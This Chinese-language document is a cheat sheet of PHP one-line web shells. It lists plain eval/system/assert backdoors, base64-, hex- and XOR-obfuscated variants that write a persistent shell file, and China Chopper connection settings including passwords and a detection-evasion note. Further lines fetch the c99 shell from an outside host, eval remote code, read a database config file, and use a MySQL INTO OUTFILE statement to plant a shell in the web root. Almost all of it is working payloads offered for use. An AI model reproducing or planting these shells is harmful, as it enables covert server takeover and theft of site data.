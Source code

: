 基础类的一句话
<?php @eval($_GET["code"])?>

<?php @system($_POST["cmd"])?>

<?php substr(md5($_REQUEST['x']),28)=='acd0'&&eval($_REQUEST['c']);？>
配置：//菜刀提交  http://192.168.1.5/x.php?x=lostwolf  脚本类型:php  密码为 c

编码的替换的类型
<?php @fputs(fopen(base64_decode('bG9zdC5waHA='),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydsb3N0d29sZiddKTs/Pg=='));?>
//会生成<?php @eval($_POST['lostwolf']);?>

<script language="php">@fputs(fopen(base64_decode('bG9zdC5waHA='),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydsb3N0d29sZiddKTs/Pg=='));</script>
//php在html内部的一种嵌入方式

<?php fputs (fopen(pack("H*","6c6f7374776f6c662e706870"),"w"),pack("H*","3c3f406576616c28245f504f53545b6c6f7374776f6c665d293f3e"))?>


<?php
session_start();
$_POST['code'] && $_SESSION['theCode'] = trim($_POST['code']);
$_SESSION['theCode']&&preg_replace('\'a\'eis','e'.'v'.'a'.'l'.'(base64_decode($_SESSION[\'theCode\']))','a');?>

乱七八糟类型的：
<?php $_GET[a]($_GET[b]);?>
//?a=assert&b=${fputs%28fopen%28base64_decode%28Yy5waHA%29,w%29,base64_decode%28PD9waHAgQGV2YWwoJF9QT1NUW2NdKTsgPz4x%29%29};

<?php assert($_REQUEST["c"]);?>     //菜刀连接 躲避检测 密码c 

<?php substr(md5($_REQUEST['x']),28)=='acd0'&&eval($_REQUEST['c']);？>
//菜刀提交  http://192.168.1.5/x.php?x=lostwolf  脚本类型:php  密码为 c

下载类型的：

1 <?php echo copy("http://www.r57.me/c99.txt","lostwolf.php"); ?> 
2 
3 <? echo file_get_contents("..//cfg_database.php");?> //显示某文件
4 
5 <? eval ( file_get_contents("远程shell")) ?> //运行远程shell

无关键函数类型：
<?php
$_="";
$_[+""]='';
$_="$_"."";
$_=($_[+""]|"").($_[+""]|"").($_[+""]^"");
?>
<?php ${'_'.$_}['_'](${'_'.$_}['__']);?>
http://site/2.php?_=assert&__=eval($_POST['pass']) 密码是pass

<?$_="";$_[+""]='_';$_="$_"."";$_=($_[+""]|"").($_[+""]|"").($_[+""]^"");?>

SQL写一句话（MySQL）

1 select "<?php @system($_POST["cmd"]);?>" into outfile "/home/webaccount/projectname/www/*.php"
2 #前面是一句话内容 后面是绝对路径www下的PHP文件，同理其他脚本也可以
